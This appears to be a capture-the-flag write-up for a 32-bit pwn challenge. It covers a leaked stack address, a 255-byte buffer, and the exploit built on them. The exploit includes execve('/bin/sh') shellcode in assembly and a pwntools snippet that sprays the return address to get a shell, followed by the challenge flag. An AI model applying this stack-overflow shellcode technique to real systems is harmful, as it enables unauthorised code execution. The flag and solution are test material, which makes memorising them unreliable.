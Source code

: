 # Shell Emporium

- **Category:** Pwn  
- **Points:** 180 (1 flag)

## Description
- You see seashells, I see shells.

## Flag
- **Flag 1:** 180 points

## Access
- **Netcat:** `nc chal.ctf-league.damsec.org 1318`
- **Download:** [shell_emporium](http://chal.ctf-league.osusec.org/pwn/shell_emporium/shell_emporium)

## Writeup

### First look
accessing the server shows us this:
```
DEBUG MESSAGE, PLEASE IGNORE: 0xff95147d
Welcome to Sally's Seashell Emporium!
Select a seashell from our sea source:
(1) Soft shell
(2) Smooth shell
(3) Strong shell
(4) Sure shell
```

the debug message looks to be interesting, but we will ignore it for now.

trying to break this program I noticed would happen if we enter a large enough number, but not much was gained from that.

### Disassembling the binary
taking a look at the binary and reverse engineering it

there were a few things of note here

in main, there is a variable that we get the address of, and that address is given to us right off the bat when we connect to the server, this is the debug message we saw earlier.

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
  undefined4 in_ECX;
  undefined local_10f [255];
  int local_10;
  undefined4 local_c;
  
  local_c = in_ECX;
  setbuf(_stdin,(char *)0x0);
  setbuf(_stdout,(char *)0x0);
  printf("DEBUG MESSAGE, PLEASE IGNORE: %p\n",local_10f);
  puts("Welcome to Sally\'s Seashell Emporium!");
  for (local_10 = 0; local_10 < 1; local_10 = local_10 + 1) {
    FUN_080491a2(local_10f + local_10 * 0xff,0xff);
  }
  FUN_080492ce();
  return 0;
}
```

this shows us that the varible is 255 bytes long

### trying to exploit the program

trying to get a foothold onto the system we take a look at just putting our own shellcode in the buffer and trying to execute it

this shellcode can be found on 'sol.py' but below is it copy and pasted

```
mov eax, 0xB
mov ebx, {addr1}
xor ecx, ecx
xor edx, edx
int 0x80
```

essentially what this does is prep the use of a terminal for us to use by pushing the value 0xB into eax, the address of our code into ebx, and then calling the interrupt 0x80 to execute the code

this now has to be put into the buffer, and sending it over to the server

but to actually get a shell we need to push the name of the program we want to run, which is '/bin/sh' 

to do this we then send over the string '/bin/shx00' and then the shellcode, which will get us fully prepped for a shell

then we need to actaully tell the server to execute our code, we accomplish this by sending the address of the buffer we just sent over

```python
p.send(b"/bin/sh\x00")
p.sendline(shellcode)
print(p.recv())
addr2 = p32(addr1+8)
p.sendline(20*addr2)
```

this address is the same as the one we got at the start of the program, but we add 8 to it to get the address of the shellcode

and then we just spam the address it in hopes of overwritting a return address

this resulted in us getting a shell it doesn't take more than 'ls' to find flag.txt and then cat the flag

#### Flag
```
osu{5411y_p0p5_5345h3115_4_7h3_5345h0r3}
```
